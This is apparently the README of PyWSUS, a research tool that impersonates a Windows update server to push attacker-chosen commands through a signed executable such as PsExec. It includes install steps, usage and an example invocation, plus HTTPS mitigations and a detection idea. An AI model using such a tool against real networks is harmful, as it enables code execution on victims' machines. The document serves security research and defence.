 # PyWSUS
The main goal of this tool is to be a standalone implementation of a legitimate WSUS server which sends malicious responses to clients. The MITM attack itself should be done using other dedicated tools, such as [Bettercap](https://github.com/bettercap/bettercap).

## Installation
```
virtualenv -p /usr/bin/python3 ./venv
source ./venv/bin/activate
pip install -r ./requirements.txt
```

## Usage
```
Usage: pywsus.py [-h] -H HOST [-p PORT] -c COMMAND -e EXECUTABLE [-v]

OPTIONS:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  The listening adress.
  -p PORT, --port PORT  The listening port.
  -c COMMAND, --command COMMAND
                        The parameters for the current payload
  -e EXECUTABLE, --executable EXECUTABLE
                        The executable to returned to the victim. It has to be signed by Microsoft--e.g., psexec
  -v, --verbose         increase output verbosity.

Example: python pywsus.py -c '/accepteula /s calc.exe' -e PsExec64.exe
```

## Mitigations
From our perspective, the best way to avoid exploitability of this issue is to force WSUS deployments to use a secured HTTPS channel.

The certificate presented by the WSUS server must be validated by the client. Error in validating the certificate will result in the wupdate client closing the connection.

The three major ways of generating a certificate for a WSUS server are:
- Using an internal PKI for which a Root CA certificate is deployed on domain computers and a certificate signed by that Root CA is used to serve WSUS updates
- Purchasing a certificate signed by a third-party CA authority trusted in the Windows OS trust store
- Using a self-signed certificate and push a copy of this certificate on all domain computers using a GPO

On the detection side, a client enrolled with WSUS will report their installed updates inventory periodically. Looking for installed updates that stand-out from the ones approved and deployed could be a way to detect such attack. This is a preliminary idea that we have not explored yet. Let us know on Twitter or LinkedIn if you have any experience doing this kind of installed patches differential analysis at the scale of an organization.

## Acknowledgements
For their contributions to this research and blogpost.
* Olivier Bilodeau from GoSecure
* Romain Carnus from GoSecure 
* Laurent Desaulniers from GoSecure 
* Maxime Nadeau from GoSecure 
* Mathieu Novis from SecureOps

For writing and researching the original proxy PoC
* Paul Stone and Alex Chapman from Context Information Security

## Reference
* WSUS Attacks Part 1: Introducing PyWSUS - https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/
* WSUXploit - https://github.com/pimps/wsuxploit
* WSUSpect Proxy - https://github.com/pdjstone/wsuspect-proxy
* WSUSpendu - https://github.com/AlsidOfficial/WSUSpendu
* Windows Update Services: Client-Server Protocol
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wusp/b8a2ad1d-11c4-4b64-a2cc-12771fcb079b?redirectedfrom=MSDN
